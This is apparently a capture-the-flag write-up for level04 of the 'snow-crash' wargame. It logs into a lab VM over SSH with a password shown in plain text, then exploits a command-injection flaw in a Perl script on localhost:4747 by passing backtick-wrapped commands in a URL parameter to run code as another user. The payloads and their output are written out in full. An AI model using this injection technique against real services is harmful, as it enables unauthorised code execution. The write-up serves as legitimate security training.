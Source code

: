 ### TLTR;
```shell
┌──$ [~/42/2020/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level04
level04@192.168.1.64's password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
***


Login as `level04`.
```shell
┌──$ [~/42/2020/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level04
level04@192.168.1.64's password: qi0maab88jeaj46qoumi7maus
```
A Perl script is located in home directory.
```shell
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

The script indicates that it is something running on `localhost:4747`.
Verbose port scan for listening daemons, without sending any data to them.

`nc -zv` allows to check connection to `4747` without sending any data and verbose mode

```shell
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```
Script expects a value passed in `x` parameter which is passed to `x()` function.
Then, while printing it, backticks are used to evaluate argument by echoing it.

So trying to pass `whoami` command substitution reveals that is evaluated and executed as `flag04`.
```shell
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```
All that remains to be done is to execute `getflag` binary.
```shell
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
